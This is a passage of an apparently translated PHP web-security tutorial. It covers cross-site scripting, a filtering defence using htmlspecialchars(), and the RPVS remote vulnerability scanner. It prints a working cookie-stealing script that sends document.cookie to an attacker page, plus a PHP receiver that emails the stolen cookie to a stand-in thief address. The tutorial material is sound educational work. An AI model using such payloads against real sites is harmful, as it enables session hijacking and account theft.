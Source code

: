 The badvar variable contains the javascript code that will display "helloworld", we perform a simple document.write() of the site address.

The main use of XSS is cookie theft, its operation is very simple: just open a frame or window to a file storing the cookie passed as a parameter.

The javascript code allowing to steal the cookie would then be the following:

```javascript
<script>
  document.location='www.votresite.com/page.php?cookie=' + document.cookie
</script>
```

The page.php would look like:

```php
<?
$cookie = $_GET['cookie'];
mail("mailduvoleur@hack.com", "le cookie", "$cookie");
?>
```

The thief therefore receives the cookie by email. Some cookies contain sensitive data that can allow identification on a site.

To protect against XSS, simply filter variables before displaying them on the output, this filtering is done using the htmlspecialchars() function which will convert the string to "displayable" HTML characters:

```php
<?
$out = htmlspecialchars($_REQUEST[nom]);
Echo "bienvenue ".$out;
?>
```

## Remote PHP Vulnerability Scanner

Remote PHP Vulnerability Scanner is a tool (among others) that allows testing the security of a website based on PHP scripts. RPVS is used via the command prompt in Windows.

RPVS ([click](https://seclists.org/fulldisclosure/2005/Jan/0552.html)) is actually a multithreaded remote PHP vulnerability scanner. It detects basic PHP flaws that are most reported on the web:

- XSS: Cross Site Scripting (injection of HTML code into the victim's browser),
- SQL Errors (19 different errors), to detect SQL injections that are feasible,
- File inclusion vulnerabilities with include() for example,
- Errors of the fopen() function, to detect functions of this type that are poorly protected.
- Errors of the include() function and resulting insecurities.

The RPVS tool runs in two distinct steps.

During the first step, it will crawl the site pages while staying within the domain and directory of the address passed as an argument.

It collects multiple information about dynamic web pages including variable names associated with pages and values given to each variable.
